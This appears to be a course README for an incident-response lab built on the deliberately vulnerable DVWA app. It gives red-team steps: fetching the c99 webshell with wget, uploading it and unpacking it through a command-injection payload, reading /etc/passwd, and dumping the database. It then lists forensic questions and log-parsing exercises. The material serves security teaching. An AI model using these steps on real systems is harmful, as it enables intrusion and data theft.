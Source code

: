 # Week 1 - Dam Vulnerable Web App(DVWA)
This week we are using DVWA for our incident response demo. DVWA provides a vulnerable webapp that is ready to be hacked out of the box.

## Presentation
Intro to IR: https://docs.google.com/presentation/d/1URpDkIjIGJbsgWn-Dqu-diC3PAdERRVYj4I2FfBWvqk/edit?usp=sharing

## Setup demo
### Init
0. Install docker and docker-compose

### Spin up demo
0. docker-compose up -d

### WebGUI setup
0. Browse to `http://<Doocker IP addr>` 
0. Login
    1. username: admin
    1. password: password
0. Select "DVWA security" on the left
0. Set the security level to "low"
0. Continue to red teaming section

## Perform red teaming
### Nikto scanner
0. Spin up Kali Linux VM
0. Open terminal
0. nikto -host http://dvwa.hackinglab.beer

### Zip, upload and unzip c99.php
0. wget https://raw.githubusercontent.com/tennc/webshell/master/php/PHPshell/c99/c99.php
0. gzip -f c99.php
0. Browse http://dvwa.hackinglab.beer with CHROME and login
    1. User: admin
    1. Pass: password
0. Select "Upload" on the left
0. Select "Choose file", "c99.php.gz" then "Upload"
0. Select "Command injection" on the right
0. Enter "8.8.8.8; /bin/gunzip -v ../../hackable/uploads/c99.php" into "Enter ip address"
0. Browse to http://dvwa.hackinglab.beer/hackable/uploads/c99.php

### Host situation awareness
0. Get current user: whoami
0. Get ip info: ip a
0. Get hostname: hostname
0. Get list of users: cat /etc/passwd
0. Get connection info: netstat -tunalp
0. Get process list: ps aux
0. Get known hosts: arp -a

### Dump database
0. mysql -u root -e "show databases;"
    1. There is no root password
0. mysql -u root -e "use dvwa; show tables"
0. mysqldump -u root --database dvwa

### Commit Docker container
0. Enter "exit" to detach from docker container
0. docker commit [docker container ID] dvwa_demo_temp
0. docker stop [docker container ID]
0. docker run -d -p 80:80 --restart always --name dvwa_demo dvwa_demo_temp

### Restart Docker container if corrupted
0. docker restart dvwa_demo

## Incident reponse demo
### Understanding the machine
It is important to understand the machine you are investigating

0. What is the operating system(OS) of the attacked machine?
0. What is the kernel of the attacked machine?
0. What is the timezone of the attacked machine?
0. What is the IP address of the attacked machine?
0. What is the MAC address of the attacked machine?
0. What is the hostname of the attacked machine?
0. What network services are listening on the attcked machine? -- include ports
0. What users are on the attacked machine?

### Become the cyber detective
0. What are the version numbers of all the listening services?
0. Do the services have any known vulnerabilities? What sources/tools did you use?
0. Where are the web server logs located?
0. What is the diff between the error.log and access.log? What information do these logs provide?
0. What are the user permissions of the log files? Why does this matter?
0. What is the timezone and time format of the webservers logs? Why does this matter?
0. What is the hackers's IP address?
0. What is the hacker's user-agent?
0. What is the operating system(OS) of the hacker's machine?
0. What webshell did the attacker use? 
0. Where was that webshell uploaded to?
0. What commands/actions did the attacker use?
0. Give a brief description how the attacker stole the data?
0. Lookup three mitigations for next week.

## Scripting challenges
0. Create a Github account and repo called “DFIRtooklit”
    1. Choose your own repo name
    1. Repo can be private or public -- your choice - mine is private
    1. If you don’t create a repo you won't receive any points.
0. Create a script in with a programming language of your choice to do everything in the “understanding the machine” section, items listed below, and then add three of your own.
    1. Create a script(s) that will parse webserver logs for:
    1. Unique list(no duplicates) of user ip addresses
    1. Unique list(no duplicates) of URIs 
    1. Unique list(no duplicates) of CMDs run by c99
    1. Unique list(no duplicates) of CMD responses by c99
    1. OUTPUT MUST BE PRETTY

## Red team challenge
### Create red team challenge container
#### Start container
0. docker run -d -p 8080:80 infoslack/dvwa
0. docker ps
0. docker exec -it [docker container ID] bash
0. apt update -y && apt install vim htop net-tools git wget -y

#### WebGUI setup
0. Browse to http://dvwa.hackinglab.beer:8080
0. Select "Create?reset database" at the bottom
0. Select "Login"
    1. Username: admin
    1. Password: password
0. Login
0. Select "DVWA security" on the left
0. Set the security level to "medium"

#### Commit Docker container
0. Enter "exit" to detach from docker container
0. docker commit [docker container ID] dvwa_pwn_temp
0. docker stop [docker container ID]
0. docker run -d -p 8080:80 --restart always --name dvwa_pwn dvwa_pwn_temp

### Create a PHP reverse shell with Metasploit
* attack: http://dvwa.hackinglab.beer:8080
* DO NOT ATTACK port 80

### Restart Docker container if corrupted
0. docker restart dvwa_pwn

# Resources/Sources
* https://www.computersecuritystudent.com/SECURITY_TOOLS/DVWA/DVWAv107/lesson14/index.html